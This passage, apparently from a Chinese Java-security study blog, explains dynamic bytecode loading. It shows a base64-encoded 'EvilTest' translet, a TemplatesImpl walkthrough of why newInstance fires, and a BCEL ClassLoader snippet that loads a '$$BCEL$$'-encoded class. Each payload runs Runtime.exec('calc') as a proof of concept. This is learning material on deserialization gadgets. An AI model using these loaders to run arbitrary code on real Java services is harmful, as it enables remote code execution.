AA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCmKExjb20vc3VuL29yZy9hcGFjaGUv
eGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFs
L2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2Vy
aWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxpbml0PgEAAygpVgcAGwEAClNvdXJj
ZUZpbGUBAA1FdmlsVGVzdC5qYXZhDAAOAA8HABwMAB0AHgEABGNhbGMMAB8AIAEACEV2aWxUZXN0
AQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJh
Y3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFu
c2xldEV4Y2VwdGlvbgEAE2phdmEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEA
CmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcv
U3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAAD
AAAAAbEAAAABAAoAAAAGAAEAAAAMAAsAAAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAA
AQAKAAAABgABAAAAEQALAAAABAABAAwAAQAOAA8AAgAJAAAALgACAAEAAAAOKrcAAbgAAhIDtgAE
V7EAAAABAAoAAAAOAAMAAAASAAQAEwANABQACwAAAAQAAQAQAAEAEQAAAAIAEg==
root@iZbp14tgce8absspjkxi3iZ:~# cat EvilTest.java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class EvilTest extends AbstractTranslet{

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
    public EvilTest() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}

root@iZbp14tgce8absspjkxi3iZ:~#

```

再加载即可：




中间有一个小的细节就是，为什么我明明没有调用`newInstance()`方法，仍然弹出了计算器？

调式一下就会发现，`defineTransletClasses`中：

```java
                _class[i] = loader.defineClass(_bytecodes[i]);
                final Class superClass = _class[i].getSuperclass();

                // Check if this is the main class
                if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
                    _transletIndex = i;
                }
```

将加载得到的`Class`给了`_class[]`，而且满足if，`_transletIndex=0`


而在`getTransletInstance`中：

```java
            if (_class == null) defineTransletClasses();

            // The translet needs to keep a reference to all its auxiliary
            // class to prevent the GC from collecting them
            AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
```

相当于执行了`_class[0].newInstance()`，因此弹出了计算器。


# BCEL ClassLoader加载字节码

详细参考文章：

https://www.leavesongs.com/PENETRATION/where-is-bcel-classloader.html

第一次见到BCEL应该是在虎符CTF2021的Internal System这题：



当时不是很理解，现在其实仍然不是很了解，就算是大致的接触叭，具体的关于BCEL等到我去学习`Fastjson`的攻击的时候，再更加深入的理解。


简单的使用就是两个类，`Repository`类和`Utility`类：




直接写个代码利用一下：

```java
package com.summer.templatesImpl;

public class Evil  {
    public Evil() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}

```

```java
package com.summer.templatesImpl;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;


public class EvilBCEL {
    public static void main(String[] args) throws Exception {
        JavaClass javaClass = Repository.lookupClass(Evil.class);
        String code = Utility.encode(javaClass.getBytes(),true);
        new ClassLoader().loadClass("$$BCEL$$"+code).newInstance();
    }
}

```

要加上`$$BCEL$$`是因为：

> BCEL这个包中有个有趣的类`com.sun.org.apache.bcel.internal.util.ClassLoader`，他是一个ClassLoader，但是他重写了Java内置的`ClassLoader#loadClass()`方法。
>
> 在`ClassLoader#loadClass()`中，其会判断类名是否是`$$BCEL$$`开头，如果是的话，将会对这个字符串进行decode。


# 参考链接

《Java安全漫谈 - 13.Java中动态加载字节码的那些方法》

https://y4tacker.blog.csdn.net/article/details/119082164

https://blog.csdn.net/rfrder/article/details/119456460


